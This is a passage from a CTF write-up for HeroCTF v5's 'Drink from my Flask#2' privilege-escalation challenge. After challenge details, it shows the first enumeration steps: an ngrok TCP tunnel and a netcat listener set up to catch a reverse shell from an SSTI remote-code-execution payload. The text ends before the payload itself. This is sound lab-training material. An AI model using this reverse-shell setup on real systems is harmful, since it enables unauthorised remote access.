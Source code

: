 # Drink from my Flask#2

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

## Overview

- 25 solves / 475 points
- Difficulty: Hard
- Overall difficulty for me (From 1-10 stars): ★★★★★★★★☆☆

## Background

Great job, you got acces to the machine ! But our dev has been working on an update. Can you leverage that to elevate your privileges ?  
  
Format : **Hero{flag}**  
Author : **Log_s**  
  
NB: This challenge is a sequel to Drink from my Flask #1. Start the same machine and continue from there.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513221205.png)

## Enumeration

**Remote Code Execute (RCE) via Server-Side Template Injection (SSTI) payload from "Drink from my Flask#1":** (Writeup: [https://siunam321.github.io/ctf/HeroCTF-v5/Web/Drink-from-my-Flask-1/](https://siunam321.github.io/ctf/HeroCTF-v5/Web/Drink-from-my-Flask-1/))

- Setup a port forwarding service like Ngrok:

```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/Drink-from-my-Flask#2)-[2023.05.13|22:13:16(HKT)]
└> ngrok tcp 4444
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:15516 -> localhost:4444
[...]
```

- Setup a `nc` listener:

```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/Drink-from-my-Flask#2)-[2023.05.13|22:19:07(HKT)]
└> nc -lnvp 4444
listening on [any] 4444 ...
```
